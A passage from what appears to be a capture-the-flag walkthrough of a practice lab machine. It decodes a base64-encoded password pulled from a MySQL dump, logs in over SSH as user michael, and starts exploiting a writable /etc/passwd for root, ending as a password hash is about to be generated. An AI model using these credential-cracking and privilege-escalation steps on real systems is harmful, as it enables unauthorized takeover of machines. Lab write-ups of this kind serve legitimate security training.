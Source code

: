 mysql> 
```
We got usernames and passwords, but the user we are concerned with here is ```michael``` so lets go ahead and decode the password encrypted in base64

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/pg_practice/snookums]
└─$ echo "U0c5amExTjVaRzVsZVVObGNuUnBabmt4TWpNPQ==" | base64 --decode
SG9ja1N5ZG5leUNlcnRpZnkxMjM=                                                                                                                                                                        
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/pg_practice/snookums]
└─$ echo "SG9ja1N5ZG5leUNlcnRpZnkxMjM=" | base64 --decode
HockSydneyCertify123                                                                                                                                                                        
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/pg_practice/snookums]
└─$ 
 ```
During our scan we saw port 22 opened, so with the password we found we can try to login to the ssh server as user ```michael```

```username:michael```                ```password:HockSydneyCertify123```

![image](https://user-images.githubusercontent.com/67879936/222939365-fe6995e4-5e88-49fd-bf6b-1cfe3423de3a.png)

cool, lets escalate our privileges further

I ran linpeas and found something interesting

![image](https://user-images.githubusercontent.com/67879936/222939501-479d5931-411b-4c99-aa13-0b38f35a4558.png)

The ```/etc/passwd``` file is writable cool. We'll copy the content of the passwd file to our machine then modify it.

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/pg_practice/snookums]
└─$ gedit passwd           
                                                                                                                                                                        
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/PG/pg_practice/snookums]
└─$ cat passwd                                          
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
chrony:x:998:996::/var/lib/chrony:/sbin/nologin
michael:x:1000:1000:Michael:/home/michael:/bin/bash
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/false
tss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
```
Lets generate a password using openssl      
```